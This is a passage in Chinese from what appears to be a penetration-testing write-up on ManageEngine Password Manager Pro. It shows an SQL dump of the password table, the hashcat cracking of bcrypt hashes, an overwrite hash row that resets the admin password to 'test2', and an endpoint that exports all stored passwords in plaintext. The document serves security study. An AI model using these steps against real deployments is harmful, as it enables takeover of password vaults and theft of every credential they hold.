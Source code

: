 ```sql
select * from aaapassword;
```

![Untitled](../../img/zoho-case/Untitled%2030.png)

这里密码是进行bcryptsha512加密的，可以用hashcat进行爆破

![Untitled](../../img/zoho-case/Untitled%2031.png)

也可通过覆盖hash的方式修改admin账号的密码，例如修改为下列数据，即可将admin密码改为test2

```
"password_id"	"password"	"algorithm"	"salt"	"passwdprofile_id"	"passwdrule_id"	"createdtime"	"factor"
"1"	"$2a$12$bOUtxZzgrAu.3ApJM7fUYu7xBfxhJ4k2gx5CQE5BzMcN.cr/6cbhy"	"bcrypt"	"wwwECQECvU8zqfmCnXfSTgFnfz9CDl/cX+yDwJEhJ+91ADnOHbR0q7rOASpBqm2mQgYLHtlUJSX5u4ad7yOJpVNkoPJoI6gev75VAwAf/BTM4rpHTLT+cCdWMwnHmg=="	"1"	"3"	"1666345834309"	"12"
```

注意⚠️：覆盖前务必备份源hash数据

![Untitled](../../img/zoho-case/Untitled%2032.png)

进入后台后可直接导出所有明文密码

```
/jsp/xmlhttp/AjaxResponse.jsp?RequestType=ExportPasswords
```

![Untitled](../../img/zoho-case/Untitled%2033.png)

---

## 本地 Web-Accounts reports 文件

在后台personal页面导出个人报告时可以选择pdf或xls格式，该文件在导出后会一直存在在服务器上

![Untitled](../../img/zoho-case/Untitled%2034.png)

这个问题在12122被修复

![Untitled](../../img/zoho-case/Untitled%2035.png)

---

## ppm 文件的安装方法

ppm是pmp的更新包，在windows上通过UpdateManager.bat进行安装，在linux上通过UpdateManager.sh进行安装

- [https://www.manageengine.com/products/passwordmanagerpro/help/faq.html](https://www.manageengine.com/products/passwordmanagerpro/help/faq.html)

---

## Source & Reference
